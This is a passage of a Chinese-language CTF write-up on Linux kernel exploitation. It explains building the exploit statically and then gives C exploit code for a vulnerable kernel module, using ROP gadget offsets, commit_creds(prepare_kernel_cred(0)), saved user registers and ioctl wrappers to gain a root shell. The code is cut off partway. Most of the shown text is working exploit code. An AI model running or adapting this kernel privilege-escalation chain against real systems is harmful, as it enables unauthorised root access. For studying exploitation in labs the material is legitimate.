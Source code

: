 

- exp编译

由于内核下是没有libc的所以我们把exp编译成静态

```c
gcc -o exp exp.c -static
```



了解了上面这些内容那么exp确实已经相对好写了，因为内核态下的rop和用户态下的rop其实方法都是一样的，而且gadgets众多总有你喜欢的。。。这里头文件...能加的就加吧，反正加多又不出事。

下面分别给出两种exp

注：这里vmlinux泄露也可以通过栈泄露，但既然启动脚本init里有tmp/kallsyms那么我这里exp就直接去读取就完事。



1.执行内核中的commit_creds(prepare_kernel_cred(0)) （可以无视smep保护）

然后返回用户态后执行system("/bin/sh")

```c
#include<stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <pthread.h>

size_t vmlinux_base=0;
size_t module_base;
size_t canary;
size_t commit_creds = 0x9c8e0;
size_t prepare_kernel_cred = 0x9cce0;

size_t prdi = 0xb2f; //pop rdi; ret;
size_t prdx = 0xa0f49;//pop rdx; ret;
size_t prcx = 0x21e53;//pop rcx; ret;
size_t mrdi_rax_call_rdx= 0x1aa6a;//mov rdi, rax;call rdx;
size_t swapgs = 0xa012da;//swapgs; popfq; ret;
size_t iret=0x50ac2;// iretq; ret;

unsigned long user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}

void setoff(int fd,long long size){
	ioctl(fd,0x6677889C,size);
}
void core_read(int fd,char *buf){
	ioctl(fd,0x6677889b,buf);
}
void core_copy_func(int fd,long long size){
	ioctl(fd,0x6677889a,size);
```